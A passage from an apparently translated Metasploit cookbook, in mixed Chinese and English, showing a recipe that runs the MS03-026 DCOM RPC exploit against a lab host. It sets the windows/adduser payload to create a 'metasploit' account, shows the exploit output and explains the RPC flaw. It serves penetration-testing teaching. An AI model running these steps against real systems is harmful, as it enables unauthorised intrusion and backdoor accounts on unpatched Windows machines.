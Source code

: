     此处 `RHOST`表示远程主机的 IP 地址， `RPORT`表示默认绑定端口。默认情况下， `RPORT` 的值被设置为 `135`。我们必须将 `RHOST`的值设置为我们的目标 IP 地址，以便执行攻击：

    ```
    msf exploit(ms03_026_dcom) > set RHOST 192.168.56.102
    RHOST => 192.168.56.102
    msf exploit(ms03_026_dcom) > 
    ```

    ### 注

    请注意， `ms03_026_dcom`漏洞的 ID 设置为 `0`。这意味着我们不需要指定目标上运行的是哪台 Windows 计算机。它可以利用其中列出的任何 Windows 计算机进行攻击。对于任何其他攻击，我们可能必须使用 `show targets`命令选择目标操作系统。

    现在 `RHOST`的值已设置为我们的目标 IP 地址。如果我们尝试运行该漏洞攻击，则会收到一条错误消息。原因是我们尚未选择任何有效负载进行攻击。

4.  我们的下一步将是选择一个相关的有效载荷。我们可以使用命令 `show payloads`列出所有可用的有效载荷。我们将从一个简单的 `windows/adduser`有效载荷示例开始。此有效负载将在目标操作系统中添加新用户：

    ```
    msf exploit(ms03_026_dcom) > set PAYLOAD windows/adduser
    PAYLOAD => windows/adduser 
    ```

5.  Now, if we again use the `show options` command then it will list the parameters for both the exploit, as well as the payload. The payload parameters will look something like this:

    ```
    Payload options (windows/adduser):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    EXITFUNC thread yes seh, thread, process, none
    PASS metasploit yes password for this user
    USER metasploit yes The username to create 
    ```

    我们可以看到将添加到目标操作系统的默认用户名和密码是 `metasploit`和`metasploit`。我们可以使用 `set PASS`和`set USER`命令更改这些值。

6.  Now that our payload is set, we are ready to penetrate the target machine. We will use the following command to launch the exploit:

    ```
    msf exploit(ms03_026_dcom) > exploit
    [*] Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
    [*] Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.56.102[135] ...
    [*] Bound to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:192.168.56.102[135] ...
    [*] Sending exploit ...
    [*] Exploit completed, but no session was created. 
    ```

    输出的最后一行显示攻击已在目标计算机上成功完成。现在将在目标计算机中添加一个新用户。输出还表示没有创建会话。这是因为我们使用的负载是一个简单的 `adduser`，不需要任何活动会话。因此，一旦攻击完成，与目标的连接就结束了。在下一个配方中，我们将使用有效负载来设置会话。

## 它是如何工作的。。。

RPC 中处理 TCP/IP 上消息交换的部分存在漏洞。由于错误处理格式错误的消息而导致失败。此特定漏洞影响带有 RPC 的**分布式组件对象模型（DCOM）**接口，该接口侦听启用 RPC 的端口。因此，目标计算机必须有一个运行 RPC 服务的可用端口。
